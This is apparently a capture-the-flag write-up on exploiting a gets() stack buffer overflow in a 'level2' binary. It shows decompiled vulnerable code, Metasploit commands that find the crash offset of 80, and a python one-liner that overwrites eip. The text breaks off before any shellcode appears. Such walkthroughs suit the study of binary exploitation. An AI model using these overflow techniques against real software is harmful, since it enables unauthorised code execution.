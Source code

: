 ```c
void p(void)
{
  uint address;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((address & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",address);
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)
{
  p();
  return;
}
```

On this level, we can see that we don't have any function susceptible to open us a shell. Time to inject shellcode !

Let's first determine what's the offset our program will crash at. For that purpose, we can use Metasploit tools:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

This will create a payload full of unique character sequences, which will help us determine the exact position our program crashed at. 

Reference: [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5 - 0xRick’s Blog](https://0xrick.github.io/binary-exploitation/bof5/)

![img](./img1.png)

On the bottom, we can see the buffer address where the program crashed: `37634136`

We can therefore give it to another Metasploit program to determine the offset:

```bash
/usr/share/metasploit-framework/tools/exploit/./pattern_offset.rb -q 37634136
[*] Exact match at offset 80
```

We now need to find the address we want 

Now when we run the program with 80 characters, the behavior changes:

```bash
python -c "print ('A'*80 + '\x28\xf7\xff\xbf')" | ./level2 
(0xbffff728)
```

We can successfully overwrite `eip` here:

![img2](./img2.png)

Now that we did that, we need to make sure `eip` points to somewhere in our shellcode. Since no ASLR happens here, we could just determine the address where our shellcode starts.

`492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
